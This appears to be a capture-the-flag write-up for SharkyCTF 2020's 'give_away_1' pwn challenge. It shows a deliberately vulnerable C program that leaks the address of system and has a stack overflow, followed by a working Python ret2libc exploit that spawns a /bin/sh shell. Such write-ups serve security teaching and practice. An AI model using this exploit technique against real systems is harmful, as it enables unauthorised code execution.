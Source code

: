 

## give_away_1 (276pt)
### Description

> Make good use of this gracious give away.
>
> Creator: Hackhim

### Attachment

[give_away_1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/give_away_1/give_away_1), [libc.so.6](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/give_away_1/libc.so.6)


### Analysis

Another warm up task

```c
int main(int argc, const char **argv, const char **envp){
  init_buffering(&argc);
  printf("Give away: %p\n", &system);
  vuln();
  return 0;
}
char *vuln(){
  char s; 
  return fgets(&s, 50, stdin);
}
```

> buffer overflow, `system` in libc leaked, 32bit elf

### Solution

ret2libc

```python
ru('Give away: ')
system = eval(rc(10))
libcbase = system - libc.sym['system']
binsh  = libcbase + libc.search('/bin/sh').next()
# ret2libc
offset = 36
payload = 'A'*offset
payload += p32(system) + p32(0) + p32(binsh)
sl(payload)
```


### More
